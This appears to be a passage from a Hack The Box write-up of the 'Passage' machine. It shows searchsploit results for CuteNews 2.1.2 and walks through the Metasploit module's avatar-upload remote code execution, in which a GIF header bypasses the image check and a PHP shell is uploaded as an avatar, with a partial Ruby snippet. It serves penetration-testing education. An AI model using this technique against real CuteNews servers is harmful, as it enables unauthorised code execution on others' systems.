 ### CuteNews - Exploit

`searchsploit` output shows there is a Metasploit RCE available for version 2.1.2.

```shell
cfx:  ~/Documents/htb/passage
→ searchsploit CuteNews 2.1.2
------------------------------------------------------------------------------------------------------------------------------------------------------------ ---------------------------------
 Exploit Title                                                                                                                                              |  Path
------------------------------------------------------------------------------------------------------------------------------------------------------------ ---------------------------------
CuteNews 2.1.2 - 'avatar' Remote Code Execution (Metasploit)                                                                                                | php/remote/46698.rb
CuteNews 2.1.2 - Arbitrary File Deletion                                                                                                                    | php/webapps/48447.txt
CuteNews 2.1.2 - Authenticated Arbitrary File Upload                                                                                                        | php/webapps/48458.txt
CuteNews 2.1.2 - Remote Code Execution                                                                                                                      | php/webapps/48800.py
------------------------------------------------------------------------------------------------------------------------------------------------------------ ---------------------------------
Shellcodes: No Results
Papers: No Results
```

The python exploit `48800.py` was published 5 days after the box was released so rather than jumping onto it, we'll understand the RCE using the intented method by going through Metasploit exploit.

### Exploit Analysis

Looking at the Metasploit module description:

> This module exploits a command execution vulnerability in CuteNews prior to 2.1.2.
The attacker can infiltrate the server through the avatar upload process in the profile area.
There is no realistic control of the $imgsize function in "/core/modules/dashboard.php"
Header content of the file can be changed and the control can be bypassed.
We can use the "GIF" header for this process.
An ordinary user is enough to exploit the vulnerability. No need for admin user.
The module creates a file for you and allows RCE

`upload_shell` function:

```ruby
  def upload_shell(cookie, check)

    res = send_request_cgi({
      'method'   => 'GET',
      'uri'      => normalize_uri(target_uri.path, "index.php?mod=main&opt=personal"),
      'cookie'   => cookie
    })
```

It appears the shell is being uploaded at the endpoint `/CuteNews/index.php?mod=main&opt=personal` by uploading a new Avatar with .php extension containing the shell and then executing the shell by visiting the Avatar URL.

